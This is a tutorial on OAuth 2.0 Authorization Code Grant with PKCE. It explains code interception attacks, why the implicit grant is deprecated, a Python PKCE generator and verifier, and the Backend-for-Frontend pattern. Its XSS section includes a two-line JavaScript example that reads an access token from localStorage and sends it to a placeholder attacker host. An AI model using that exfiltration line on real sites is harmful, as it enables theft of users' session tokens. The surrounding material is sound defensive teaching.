

# OAuth 2.0 Authorization Code Grant with PKCE: Deep Technical Protocol Flow and Security Analysis

> Unpack the mechanics of Proof Key for Code Exchange (PKCE) defined in RFC 7636, and learn how to secure public client architectures (Single Page Apps and Mobile Apps) against Authorization Code Interception attacks.

---

## What We Are Going to Learn

In this deep-dive guide, we will transition from a basic conceptual model of OAuth 2.0 to a robust, defense-in-depth implementation of the **Authorization Code Grant with PKCE (Proof Key for Code Exchange)**.

Specifically, we will cover:
1. **The security vulnerabilities of public clients** (SPAs and Native Apps) that led to the deprecation of the Implicit Grant.
2. **The Authorization Code Interception Attack** and how PKCE prevents it without relying on client secrets.
3. **The step-by-step cryptographic protocol flow** of PKCE, including `code_verifier` and `code_challenge` derivations.
4. **Hands-on code** demonstrating how to securely generate and verify PKCE tokens in production.

---

## The Problem: Public Clients and the Client Secret Paradox

Under the original OAuth 2.0 specification (RFC 6749), applications were divided into two main categories:
* **Confidential Clients:** Server-side applications (like a Node.js/Express or Java backend) where code execution occurs on secure, private servers. These clients can safely store a **Client Secret** (like an API key) to authenticate themselves to the Authorization Server.
* **Public Clients:** Clients that run entirely inside user-accessible environments, such as **Single Page Applications (SPAs)** (React, Vue, Angular in a browser) or **Mobile/Native Applications** (iOS, Android). 

```
                                USER'S BROWSER (Public Client)
                    +----------------------------------------------------+
                    |  React SPA Code                                    |
                    |  const client_secret = "super_secret_api_key";     |  <--- ATTACKER READS THIS INSTANTLY!
                    +----------------------------------------------------+
```

### The Paradox
A public client **cannot keep a secret**. If you ship a React application with a embedded client secret, an attacker can simply open the browser's Developer Tools (F12) or inspect the downloaded source bundles to extract it. Similarly, a mobile app's binary can be easily decompiled using tools like Apktool or Ghidra to reveal any hardcoded secrets.

Because public clients cannot protect a client secret, they cannot securely execute the standard **Authorization Code Grant** (which requires a secret to exchange the authorization code for an access token), nor should they ever use the outdated **Implicit Grant** (which bypasses the code exchange entirely and delivers the Access Token directly in the URL fragment, exposing it to browser history, browser extensions, and referrer headers).

---

## Why the Problem Is Hard: The Authorization Code Interception Attack

If a public client executes the Authorization Code Grant *without* a client secret, it becomes highly vulnerable to an **Authorization Code Interception Attack**:

```
 1. Initiate Login ---> [ OS Browser ] -------------> [ Auth Server ]
                              |                              |
 3. App Intercepts <--- [ Custom Scheme Handler ] <--- 2. Auth Code (Redirect)
    (Attacker's App)
```

1. **The Setup:** On mobile operating systems (like Android or iOS), native applications can register custom URI schemes (e.g., `my-app://oauth-callback`) to intercept redirect requests. Multiple applications can register the *same* scheme.
2. **The Interception:** A legitimate mobile app opens the browser to log the user in. The Authorization Server redirects the user back with an **Authorization Code** in the URL query string: `my-app://oauth-callback?code=AUTH_CODE_123`.
3. **The Steal:** If a malicious app has registered the same custom scheme, it can intercept that redirect, steal the raw `AUTH_CODE_123`, and send it to its own servers.
4. **The Exchange:** Because public clients do not use a client secret, the malicious app can make a direct `POST` request to the token endpoint using the stolen code and receive a valid `Access Token`, completely compromising the user's account.

---

## A Simple Mental Model: The Secret Password Exchange

To understand how PKCE solves this, imagine a high-security courier scenario:

```
               Alice                                  Bob
                 |                                     |
                 |--- "Hello! I am sending Dave to ----|
                 |    pick up my package. His secret   |
                 |    phrase is 'Blue-Sky'..."         |  (Encrypted or Out-of-band)
                 |                                     |
                 |<-- Dave arrives at Bob's desk. -----|
                 |    Bob says: "What is your secret?" |
                 |    Dave says: "Blue-Sky!"           |
                 |    Bob releases package.            |
```

If a malicious impostor intercepts Dave on the street and tries to pretend to be Dave, they cannot claim the package because they do not know the secret password.

In PKCE:
* **The Client (Alice)** invents a secret password (`code_verifier`) for the specific login session.
* **The Client** hashes the password (`code_challenge`) and sends only the hash to the **Auth Server (Bob)** in the initial authorization request.
* **The Auth Server** records the hash.
* When the client exchanges the received authorization code, they send the original plaintext password (`code_verifier`).
* The **Auth Server** hashes the verifier and compares it to the original challenge. If they match, the server knows the party exchanging the code is the *exact same* party that initiated the login, neutralizing any intercepted codes.

---

## Under the Hood: The PKCE Cryptographic Protocol Flow

Let's map out the precise HTTP-level messages transiting between the client and the OAuth 2.0 Authorization Server.



### Protocol Parameters Explained

#### 1. The Code Verifier (`code_verifier`)
A high-entropy, cryptographically secure random string of minimum length 43 characters and maximum length 128 characters, constructed using unreserved URI characters:
$$\text{Characters} = [A-Z], [a-z], [0-9], -, ., \_, \sim$$

#### 2. The Code Challenge (`code_challenge`)
The verifier is hashed using SHA-256 and then encoded into URL-safe Base64 without padding (`Base64URL`).
$$\text{code\_challenge} = \text{Base64URL}(\text{SHA-256}(\text{code\_verifier}))$$

#### 3. The Challenge Method (`code_challenge_method`)
Specifies the hashing algorithm. In production, this **must always be set to `S256`**. 
The alternative `plain` method (where the challenge is equal to the verifier) is deprecated as it fails to protect against eavesdropping on the network and should never be used.

---

## Code Example: Secure PKCE Generation and Validation

Below is a complete, production-grade Python script demonstrating how to securely generate a cryptographically strong `code_verifier`, derive its corresponding `code_challenge`, and validate it on the server-side.

```python
import os
import base64
import hashlib
import secrets

class PKCEEngine:
    @staticmethod
    def generate_code_verifier() -> str:
        """
        Generates a cryptographically secure, high-entropy 43-character code_verifier
        conforming to RFC 7636 section 4.1.
        """
        # 32 bytes of secure entropy (256 bits)
        raw_bytes = secrets.token_bytes(32)
        # URL-safe Base64 encode without padding
        verifier = base64.urlsafe_b64encode(raw_bytes).decode('utf-8')
        return verifier.replace('=', '').replace('+', '-').replace('/', '_')

    @staticmethod
    def derive_code_challenge(verifier: str) -> str:
        """
        Derives the S256 code_challenge from a code_verifier
        using SHA-256 and URL-safe Base64 encoding.
        """
        # 1. Take SHA-256 hash of the ASCII representation of the verifier
        sha256_hash = hashlib.sha256(verifier.encode('ascii')).digest()
        # 2. Encode to URL-safe Base64
        challenge_bytes = base64.urlsafe_b64encode(sha256_hash)
        # 3. Clean up any trailing padding
        challenge = challenge_bytes.decode('ascii').replace('=', '')
        return challenge

    @staticmethod
    def verify_pkce(verifier: str, stored_challenge: str) -> bool:
        """
        Server-side validation check.
        Re-computes the challenge from the client-provided verifier 
        and compares it against the challenge stored during authorization.
        """
        recomputed_challenge = PKCEEngine.derive_code_challenge(verifier)
        # Enforce constant-time comparison to mitigate timing side-channel attacks
        return secrets.compare_digest(recomputed_challenge, stored_challenge)


if __name__ == "__main__":
    print("[*] Simulating PKCE Cryptographic Exchange...")

    # --- CLIENT-SIDE GENERATION ---
    verifier = PKCEEngine.generate_code_verifier()
    challenge = PKCEEngine.derive_code_challenge(verifier)

    print(f"\n[Client] Generated Code Verifier (Length {len(verifier)}):\n  {verifier}")
    print(f"[Client] Derived S256 Code Challenge:\n  {challenge}")

    # --- CLIENT REQUESTS AUTHORIZATION ---
    # The client sends the 'challenge' to the server:
    # GET /authorize?client_id=my_spa&code_challenge=challenge&code_challenge_method=S256
    stored_challenge_at_server = challenge

    # --- CLIENT REJECTS / EXCHANGES CODE ---
    # The client sends the 'verifier' alongside the authorization code:
    # POST /token?client_id=my_spa&code=auth_code_123&code_verifier=verifier
    client_supplied_verifier = verifier

    # --- SERVER-SIDE VALIDATION ---
    is_valid = PKCEEngine.verify_pkce(client_supplied_verifier, stored_challenge_at_server)
    print(f"\n[Server] Verifying provided Code Verifier against stored Challenge...")
    print(f"[Server] Cryptographic Match Status: {is_valid}")
    if is_valid:
        print("[✓] Success! Access Token issued safely.")
    else:
        print("[X] Security Alert! Code exchange rejected.")
```

---

## Security Analysis: Deprecating the Implicit Grant

Before PKCE became the industry standard, Single Page Applications utilized the **Implicit Grant** (RFC 6749 Section 4.2).

### Why the Implicit Grant is Deprecated
Under the Implicit Grant, the Client requested tokens directly in the initial authorization request. The Authorization Server returned the Access Token **directly in the URL fragment** of the redirect URI:

```
  AS Redirect: https://my-spa.com/callback#access_token=eyJhbGci...
```

This represents an immense attack surface:
1. **Referrer Headers:** If the Single Page Application loads external scripts (like analytics, ads, or social widgets), the entire URL (including the access token in the fragment) can be leaked in the HTTP `Referer` header to third-party domains.
2. **Browser History:** The browser stores the redirected URL in its history. Anyone with access to the physical machine can extract active access tokens.
3. **Browser Extensions:** Malicious extensions can monitor browser address bars and capture tokens instantly.

### The PKCE Mitigation
Under the Authorization Code Grant with PKCE, the Access Token is **never sent in the browser address bar**. It is only sent over a direct, secure backchannel `POST` request (`/token` endpoint) which uses TLS to encrypt the payload, keeping the token out of URL histories and referrer logs.

---

## Common Misconceptions

### Misconception 1: "PKCE is only needed if my public app uses a custom URI scheme"
**Reality:** PKCE is mandatory for **all** public clients, including Single Page Applications running on standard `https://` web schemes. Attackers can execute code interception attacks in browsers via malicious scripts or Cross-Site Scripting (XSS) injections.

### Misconception 2: "If I use PKCE, I don't need HTTPS"
**Reality:** PKCE does not protect the final token transfer from the `/token` endpoint to the client. If HTTPS is not enforced, an attacker can execute a Man-in-the-Middle (MitM) attack to capture the Access Token as it is returned. PKCE is a layer on top of TLS, not a replacement.

---

## Expert Insight: Mitigating XSS Token Theft

While PKCE secures the transition of tokens into a Single Page Application, it does not solve the hardest challenge of public client security: **Where do we store the Access Token once we have it?**

If you store the access token in `localStorage` or `sessionStorage`, it is completely exposed to **Cross-Site Scripting (XSS)** attacks. Any malicious script loaded via a compromised npm package or inline injection can execute:
```javascript
const token = localStorage.getItem("access_token");
fetch("https://attacker.com/steal?token=" + token);
```

### The Architectural Fix (The Backend-for-Frontend (BFF) Pattern)
To build an elite, enterprise-grade secure architecture, public clients should avoid handling tokens entirely. Instead, implement the **Backend-for-Frontend (BFF) Pattern**:

```
 [ React SPA ] <--- Secure, HttpOnly, SameSite Session Cookie ---> [ BFF Server ]
                                                                       |
                                                                   [ Auth Server ]
                                                                   [ API Services ]
```

1. The React SPA communicates exclusively with a lightweight server (the BFF).
2. The BFF coordinates the OAuth 2.0 PKCE handshake on behalf of the SPA.
3. The BFF stores the returned Access and Refresh tokens in its secure server-side session memory.
4. The BFF issues a secure, **HttpOnly, Secure, SameSite=Strict session cookie** to the React SPA.
5. The SPA is protected from XSS token theft because Javascript cannot read `HttpOnly` cookies.

---

## Pause and Think

> **Critical Question:** Why can't the authorization server simply skip storing the `code_challenge` in its database and verify PKCE statelessy?

### Answer
To check the PKCE exchange statelessly, the server would have to encode the `code_challenge` directly into the generated `authorization_code` (for example, as a encrypted payload or signed token). 

While possible, this adds cryptographic complexity. Storing the challenge linked to the session state on the authorization server is highly secure, simple to scale, and keeps the authorization code small.

---

## Key Takeaways

* **Public Clients cannot keep secrets**, making traditional client secrets useless for mobile or Single Page Apps.
* **The Implicit Grant is deprecated** due to token leakage in browser histories and referrer headers.
* **PKCE secures the Code Grant** by using a one-time cryptographic proof (`code_verifier` and `code_challenge`) for each login session.
* For maximum security, use the **Backend-for-Frontend (BFF) pattern** to store tokens in secure cookies and shield them from XSS.

---

## What to Learn Next

To expand your identity and access management expertise, explore:
* **The OpenID Connect (OIDC) specification for identity verification.**
* **Configuring OAuth 2.0 Refresh Token Rotation for public clients.**
* **Mitigating Cross-Site Request Forgery (CSRF) in cookie-based API connections.**
